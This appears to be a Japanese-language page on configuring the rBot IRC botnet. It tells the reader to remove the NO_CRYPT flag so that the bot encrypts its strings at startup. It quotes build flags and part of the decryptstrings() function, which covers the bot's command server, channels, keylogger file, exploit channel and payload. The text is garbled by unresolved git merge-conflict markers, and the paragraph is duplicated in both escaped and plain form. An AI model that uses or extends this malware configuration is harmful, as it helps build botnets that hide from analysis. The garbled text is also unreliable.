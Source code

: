 　なぜプロジェクト本体に宣言しているのか、普通に考えればdefins.hで宣言す
る方が統一性があると思うのですが一先ず暗号化を有効にするにはNO_CRYPTを外
して#else ~ #endif の変数群を #ifndef ~ #else に移動させれば良いです。そ
うすれば crypt.cpp - decryptstrings() によって、rBotが起動した時に暗号化
されます

-----
#ifndef NO_CRYPT 
=======
\-\-\-\-\-
WIN32;NDEBUG;_WINDOWS;NO_AVFW_KILL;NO_SECSYSTEM;NO_REGISTRY;NO_EHANDLER;NO_CRYPT;
\-\-\-\-\-

　なぜプロジェクト本体に宣言しているのか、普通に考えればdefins.hで宣言す
る方が統一性があると思うのですが一先ず暗号化を有効にするにはNO_CRYPTを外
して\#else \~ \#endif の変数群を \#ifndef \~ \#else に移動させれば良いです。そ
うすれば crypt.cpp \- decryptstrings() によって、rBotが起動した時に暗号化
されます

\-\-\-\-\-
\#ifndef NO_CRYPT 
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
void decryptstrings(int authsize, int versionsize)
{
	int i;

	Crypt(botid,strlen(botid),"",0);
	Crypt(version,strlen(version),"",0);
	Crypt(server,strlen(server),"",0);
	Crypt(serverpass,strlen(serverpass),"",0);
	Crypt(channel,strlen(channel),"",0);
	Crypt(chanpass,strlen(chanpass),"",0);
	Crypt(server2,strlen(server2),"",0);
	Crypt(channel2,strlen(channel2),"",0);
	Crypt(chanpass2,strlen(chanpass2),"",0);
	Crypt(filename,strlen(filename),"",0);
	Crypt(keylogfile,strlen(keylogfile),"",0);
	Crypt(valuename,strlen(valuename),"",0);
	Crypt(nickconst,strlen(nickconst),"",0);
	Crypt(szLocalPayloadFile,strlen(szLocalPayloadFile),"",0);
	Crypt(modeonconn,strlen(modeonconn),"",0);
	Crypt(exploitchan,strlen(exploitchan),"",0);
	Crypt(keylogchan,strlen(keylogchan),"",0);
	Crypt(psniffchan,strlen(psniffchan),"",0);

<<<<<<< HEAD
	for(i=0;i < authsize;i++)
		Crypt(authost[i],strlen(authost[i]),"",0);

	for(i=0;i < versionsize;i++)
=======
	for(i\=0;i < authsize;i++)
		Crypt(authost[i],strlen(authost[i]),"",0);
